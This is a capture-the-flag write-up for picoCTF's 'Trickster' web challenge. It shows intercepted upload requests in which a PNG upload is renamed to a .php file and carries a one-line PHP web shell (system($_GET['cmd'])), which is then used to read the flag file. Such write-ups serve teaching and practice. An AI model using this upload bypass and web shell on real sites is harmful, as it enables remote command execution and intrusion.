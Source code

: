 # Challange Info

Name : Trickster

Difficulty : Medium

Category : Web Exploitation

Link : https://play.picoctf.org/practice/challenge/445?category=1&page=2

# Writeup

Navigating the webapp http://atlas.picoctf.net:52670/.

The wepapp provides file upload functionality.

Intercepting the file upload request after providing valid png file.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52670

Content-Length: 1621835

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52670

Content-Type: multipart/form-data; boundary=----WebKitFormBoundary2BkeBqtFYUCMEiB7

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52670/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundary2BkeBqtFYUCMEiB7

Content-Disposition: form-data; name="file"; filename="test.png"

Content-Type: image/png



PNG

<png file data>
```

Changing `filename="test.png` to `filename="test.png.php`.

And remove all png data after first line of png header as the server checks for php header after file is uploaded.

After all changes the request should look like this.

```
POST / HTTP/1.1

Host: atlas.picoctf.net:52712

Content-Length: 869

Cache-Control: max-age=0

Origin: http://atlas.picoctf.net:52712

Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryrnVv0sWMNLhWGIPR

Upgrade-Insecure-Requests: 1

User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/131.0.0.0 Safari/537.36

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7

Referer: http://atlas.picoctf.net:52712/

Accept-Encoding: gzip, deflate, br

Accept-Language: en-US,en;q=0.9

sec-gpc: 1

Connection: keep-alive



------WebKitFormBoundaryrnVv0sWMNLhWGIPR

Content-Disposition: form-data; name="file"; filename="pay.png.php"

Content-Type: image/png



PNG

<First line of png header>
<?php system($_GET['cmd'], $retval); echo $retval; ?>
------WebKitFormBoundaryrnVv0sWMNLhWGIPR--
```

Forward this request and file will be uploaded.

Now navigate to "http://atlas.picoctf.net:52670/uploads/pay.png.php?cmd=cat /var/www/html/GQ4DOOBVMMYGK.txt"

`Note : I found "/var/www/html/GQ4DOOBVMMYGK.txt" by using "find / flag" command which revealed all files and to the very end this file caught my eye.`

This will reveal the flag.
